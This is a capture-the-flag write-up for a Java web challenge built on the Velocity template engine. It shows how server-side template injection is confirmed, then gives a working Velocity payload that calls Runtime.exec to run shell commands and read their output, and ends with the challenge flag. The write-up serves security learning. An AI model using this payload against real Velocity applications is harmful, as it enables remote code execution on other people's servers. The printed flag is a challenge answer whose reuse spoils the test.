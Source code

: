 # Labyrinth Linguist

## Enumeration

The web application shows a simple submit box to translate english to a made up language with some crazy unreadable font:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8c317022-3aec-4349-bd57-7ec6a2c836e5)

Looking through the provided source code, we see it is Java based and using the Velocity template library.
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6a269172-7dc4-498a-a476-02b72400d500)

No sign of user input sanitization in our text parameter so we should be good to go to try Server Side Template Injection:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5d20dac8-289f-4b2d-a2c4-6b6ae4189343)

Testing with a standard payload for this template, we have confirmed SSTI when we see the classic 49.

```
#set ($run=7*7) $run
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1be46e51-0cd9-4154-9791-4061fe1cc9be)

## Solution
Getting code execution isn't too difficult, a quick google search gives us the first link:  
[https://antgarsil.github.io/posts/velocity/](https://antgarsil.github.io/posts/velocity/)  
But we can find the same payload on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java) as well.

However, both payloads needs to be adjusted a bit because they don't seem to work out of the box. This payload from this [blog](https://gosecure.github.io/template-injection-workshop/#6) helped me refine the one below:  

```
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('id')) $ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))#end
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/56b1dad3-4fe4-4735-b372-f0d680b54101)

From the source code we already know our flag is in the root directory but we need to know the exact name:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/86b64d9f-993f-4182-906c-94c90a363652)

Trying to read it with a wildcard breaks our syntax:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5e452603-6d17-4b14-bbcf-424cf7fef3dd)

So we just take another step to list it to get the name:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/17b962cc-e93a-4525-aeea-49c4ac62d910)

And now we can read it:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9d6811d5-622b-4554-b33c-774a4ed5500d)

`HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
